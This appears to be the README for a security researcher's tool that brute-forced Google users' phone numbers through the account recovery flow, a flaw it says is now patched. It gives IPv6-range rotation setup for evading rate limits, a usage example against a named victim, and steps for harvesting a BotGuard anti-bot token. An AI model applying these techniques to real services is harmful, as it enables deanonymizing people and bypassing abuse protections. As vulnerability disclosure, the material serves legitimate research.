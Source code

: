 
# gpb

This repo contains files relevant to my blog post [Bruteforcing the phone number of any Google user](https://brutecat.com/articles/leaking-google-phones).

> [!IMPORTANT]  
> This vulnerability has already been patched and as such, this program will no longer work.

### Setting up IPv6

The following steps require a server with a /48 IPv6 range. Most VPS providers provide IPv6 ranges routed to your server (ex. [BuyVM](https://buyvm.net/), [Vultr](https://vultr.com/), [Netcup](https://www.netcup.com/en), [Aeza](https://aeza.net/) etc.)

**View your network interface**

```
root@server:~# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute
       valid_lft forever preferred_lft forever
2: ens3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 52:54:00:f1:e7:db brd ff:ff:ff:ff:ff:ff
    altname enp0s3
    inet 88.54.35.66/32 brd 77.239.124.111 scope global ens3
       valid_lft forever preferred_lft forever
    inet6 2a03:dead:beef::2/48 scope global
       valid_lft forever preferred_lft forever
    inet6 fe80::5054:ff:fef1:e7db/64 scope link
       valid_lft forever preferred_lft forever
```

From this, my interface is ens3 and my IPv6 range is 2a03:dead:beef::/48

> For the following steps, replace ens3 and 2a03:dead:beef::/48 with your network interface and IPv6 range accordingly.

**Install ndppd**

```bash
sudo apt update && sudo apt install ndppd -y
```

Edit /etc/ndppd.conf to the following:

```
route-ttl 30000

proxy ens3 {
    router no
    timeout 500
    ttl 30000

    rule 2a03:dead:beef::/48 {
        static
    }
}
```

Run the following commands:

```bash
# Restart the service
service ndppd restart

# Add route
ip route add local 2a03:dead:beef::/48 dev ens3

# Open ip_nonlocal_bind for binding any IP address:
sysctl net.ipv6.ip_nonlocal_bind=1
```

You can now test that IPv6 works properly with curl:

```
$ curl --interface 2a03:dead:beef::cafe ipv6.ip.sb
2a03:dead:beef::cafe
```

### Installation

Install dependencies

```bash
# Install Rust
$ curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
<snip>
$ . "$HOME/.cargo/env" 

# Install required dependencies
sudo apt install pkg-config libssl-dev gcc -y
```

Compile the program

```bash
$ git clone https://github.com/ddd/gpb
$ cd gpb
$ cargo build --release
```

Update ulimit 

```
ulimit -n 1000000
```

### Usage

In this example, the victim's google account display name is "Henry Chancellor" and the Google account forgot password flow gives the phone mask `•• ••••••50`.

```
$ ./target/release/gpb -m full -f Henry -l Chancellor -s "2a03:dead:beef::/48" -M "•• ••••••50" -w 3000 -b "<botguard_token_here>" 
```

-w is the worker count. You can increase/decrease this depending on how many CPU cores your machine has. The more workers, the longer the program may take to start (as it has to create a [reqwest::Client](https://docs.rs/reqwest/latest/reqwest/struct.Client.html) for each worker)

### Obtaining the BotGuard token (manual)

> To automatically obtain the botguard token, use the [bg_gen](https://github.com/ddd/gpb/tree/main/tools/bg_gen) tool

For the botguard token, visit the [JS-enabled username recovery page](https://accounts.google.com/signin/v2/usernamerecovery?hl=en), Open DevTools. Enter any email/number and any first/last name.

You should see a POST request to `https://accounts.google.com/_/lookup/accountlookup`.

Copy the botguard request token within the bgRequest query parameter. You may need to URL decode the parameter value.

```
bgRequest: ["username-recovery","botguard_token_will_be_here"]
```








